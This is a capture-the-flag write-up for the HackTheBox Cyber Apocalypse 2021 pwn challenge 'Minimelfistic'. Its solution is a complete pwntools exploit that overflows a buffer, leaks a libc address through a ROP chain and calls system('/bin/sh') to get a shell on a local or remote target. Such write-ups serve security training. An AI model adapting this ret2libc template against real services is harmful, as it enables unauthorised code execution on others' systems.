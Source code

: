 ```yaml
---
name: Minimelfistic (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Pwn
description: Writeup for Minimelfistic (Pwn) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Minimelfistic

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/JJD45W-C9mQ/0.jpg)](https://youtu.be/JJD45W-C9mQ?t=2169s "HTB Cyber Apocalypse CTF 2021: Minimelfistic")

## Challenge Description

> The Elves finally understood what went wrong with all their plans. They were too fancy and obvious! But, this one is different.. It's a security system, but the alarm rings whenever Santa's house is vulnerable to an attack. Will you manage to deactivate it? p.s. Sound on!

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './minimelfistic'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Lib-C library
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')  # Local
libc = ELF('libc.so.6')  # Remote

# Pass in pattern_size, get back EIP/RIP offset
offset = 72

ret = 0x400616  # Stack alignment

# Start program
io = start()

# Create a ROP object to handle complexities
rop = ROP(elf)

# Payload to leak libc function
# No puts() so use write()
rop.banner()
rop.write(1, elf.got.write)
rop.main()

# We need the '9' or we won't get out of infinite loop
payload = flat([
    b'9' + (asm('nop') * (71)),
    rop.chain()
])

# Send the payload
io.sendlineafter(b'>', payload)

io.recvlines(41)  # the banner

# Retrieve got.write address
got_write = unpack(io.recvline()[:6].ljust(8, b"\x00"))
info("leaked got_write: %#x", got_write)

# Subtract write offset to get libc base
libc.address = got_write - libc.symbols.write
info("libc_base: %#x", libc.address)

# Reset ROP object with libc binary
rop = ROP(libc)

# Call ROP system, passing location of "/bin/sh" string
rop.system(next(libc.search(b'/bin/sh\x00')))

# We need the '9' or we won't get out of infinite loop
payload = flat([
    b'9' + (asm('nop') * (offset - 1)),
    ret,
    rop.chain()
])

# Send the payload
io.sendlineafter(b'>', payload)

# Got Shell?
io.interactive()
```
{% endcode %}
